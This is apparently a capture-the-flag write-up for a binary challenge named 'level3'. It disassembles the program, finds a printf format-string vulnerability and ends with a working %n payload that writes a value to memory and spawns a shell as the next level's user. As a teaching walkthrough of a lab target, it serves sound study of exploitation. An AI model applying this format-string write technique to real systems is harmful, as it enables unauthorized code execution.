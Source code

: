 level3
======

Dissassembly
------------

To dissassemble the executable we can use gdb.
```sh
FUNCTION=main EXECUTABLE=./level3
gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble/r $FUNCTION" "$EXECUTABLE"
```

The main function looks like this:
```nasm
Dump of assembler code for function main:
   0x0804851a <+0>:	push   ebp
   0x0804851b <+1>:	mov    ebp,esp
   0x0804851d <+3>:	and    esp,0xfffffff0
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave
   0x08048526 <+12>:	ret
End of assembler dump.
```

It calls another function v:

```nasm
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp
   0x080484a7 <+3>:	sub    esp,0x218
   0x080484ad <+9>:	mov    eax,ds:0x8049860
   0x080484b2 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484b6 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484be <+26>:	lea    eax,[ebp-0x208]
   0x080484c4 <+32>:	mov    DWORD PTR [esp],eax
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    eax,[ebp-0x208]
   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    eax,ds:0x8049880
   0x080484e9 <+69>:	mov    edx,eax
   0x080484eb <+71>:	mov    eax,0x8048600
   0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx
   0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc
   0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1
   0x08048504 <+96>:	mov    DWORD PTR [esp],eax
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
End of assembler dump.
```

We can see that there is a system call, but to reach it, a specific value needs to be set to0x40.
```nasm
...
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   ...
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
End of assembler dump.
```

The stack looks like this:
| Address | Type           | Size |
|---------|----------------|------|
| -0x218  | char \*fmt     |   4  |
| -0x210  | FILE \*stdin   |   4  |
| -0x20c  | size_t len     |   4  |
| -0x208  | char data[200] | 512  |
|  0x000  | *EBP           |   4  |
|  0x004  | *EIP           |   4  |

There is a call to printf with a user-controlled stack-buffer as first argument.

In c, the procedure would look like this:
```c
FILE *stdin = *(FILE**)0x8049860;
fgets(fmt, len, stdin);

printf(fmt);

if (*(int*)0x804988c == 0x40)
{
	fwrite(...);
	system(...);
}
```

Exploitation
------------

With the use of some format-specifiers, we can easily print values from the stack, as if they where arguments:
```c
./level3 <<< "%p"
```
```c
0x200
```
Here we can see that we are able to print the length of the buffer, which was the second argument of the previous function: fgets.

Let's see if we can get up to our own buffer.
Remember: Arguments are pushed on the stack in reverse order.
That means [esp] is the first argument passed on the stack:
```nasm
...
   0x080484cc <+40>:	lea    eax,[ebp-0x208]
   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
...
```
Indeed, it contains the address of our buffer at ebp - 0x208, or esp + 0x10.
Since the buffer starts at esp + 0x10, we need to pop 16 bytes off the stack until we reach it.

This can be done using the %p format specifier, which prints 32 bit pointers.
We need to use 4 of them so that we have a 4 * 4 = 16 bytes offset.

```sh
./level3 <<< "AAAA %p %p %p %p"
```
```c
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141
```
Alright, so we can control the format string, as well the fourth argument of the printf call. But what can we do with this?

```sh
man 3 printf
```
>BUGS
>>Because  sprintf()  and  vsprintf() assume an arbitrarily long string, callers must becareful not to overflow the actual space; this is often impossible  to  assure.
>>Note that  the length of the strings produced is locale-dependent and difficult to predict.Use snprintf() and vsnprintf() instead (or asprintf(3) and vasprintf(3)).
>
>>Code such as printf(foo); often indicates a bug, since foo may contain a %  character.If  foo  comes from untrusted user input, it may contain %n, causing the printf() callto write to memory and creating a security hole.

In our case, the executable is affected by the second bug. We can write to a location provided by an argument using the %n specifier.

The %n modifiers writes the length of the preceding formatted input. So if we want to write 0x40 to memory location 0x804988c, we need to put the address at the start of our buffer, pop 3 arguments off the stack using the %p specifier, and pad the input to reach 40-bytes before placing the %n specifier.

```sh
ADDRESS="0804988c"
BYTES=$(<<< "$ADDRESS" rev | dd conv=swab | xxd -r -p)
(echo "$BYTES%p%p%45p%n"; cat) | ./level3
```
```
0x2000xb7fd1ac0                                   0xb7ff37d0
Wait what?!
whoami
level4
```
